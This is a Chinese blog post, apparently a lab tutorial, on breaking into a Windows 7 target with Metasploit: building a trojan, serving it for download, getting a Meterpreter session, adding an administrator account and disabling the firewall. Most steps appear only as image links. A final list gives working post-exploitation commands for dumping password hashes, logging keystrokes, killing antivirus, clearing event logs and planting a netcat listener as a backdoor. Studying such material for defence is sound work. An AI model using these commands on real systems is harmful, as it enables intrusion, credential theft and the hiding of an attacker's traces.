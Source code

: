 ```yaml
---
layout:     post
title:      msf入侵windows基本实践
subtitle:   msf入侵win7
date:       2021-03-19
author:     BlackFrog-hub
header-img: img/msf_bg.png
catalog: true
tags:
    - msf
    - kali
      
---
```


##### 生成木马
![](http://blackfrog.top/img/trojan.png)

##### 利用`Python`快速生成一个`HTTPServer`
![](http://blackfrog.top/img/python_http.png)

##### 利用靶机访问我们刚刚使用`Python`开启的`HTTPServer`，并下载生成的`Trojan`
![](http://blackfrog.top/img/http.png)

##### 启动`msf`
![](http://blackfrog.top/img/qidong.png)

##### 设置`payload`,并`exploit & run`成功
![](http://blackfrog.top/img/set.png)

##### 将`Trojan`进程移动到其他指定的进程中，这样做的好处是可以给`meterpreter`一个相对稳定的运行环境
![](http://blackfrog.top/img/unkill.png)

##### 查看`route`信息
![](http://blackfrog.top/img/route.png)

##### 查看进程
![](http://blackfrog.top/img/ps.png)

##### Get目标主机`shell`隐藏，获取靶机信息
![](http://blackfog.top/img/get.png)

##### 查看`IP`
![](http://blackfrog.top/img/ip.png)

##### 添加新用户并加入`administrator`组
![](http://blackfrog.top/img/shell.png)

##### 下载靶机文件
![](http://blackfrog.top/img/get_file.png)

##### 关闭目标主机`Firewalls`
![](http://blackfrog.top/img/off_firewall.png)

##### 其他基本命令
-  `run post/windows/gather/smart_hashdump`  获取目标主机上用户的hash值
-  `run post/windows/capture/keylog_recorder`  键盘记录
-  `run killav` 结束目标主机上的杀毒软件相关进程
-  `clearev`  清除系统日志
-  `upload /usr/share/windows-binaries/nc.exe c:\\windows\\system32` 上传`nc.exe`到目标主机上 (注:`\\`)
-  `dir windows\\system32\\nc.exe`  查看
-  `execute -f nc -nvlp 3333`  执行nc.exe


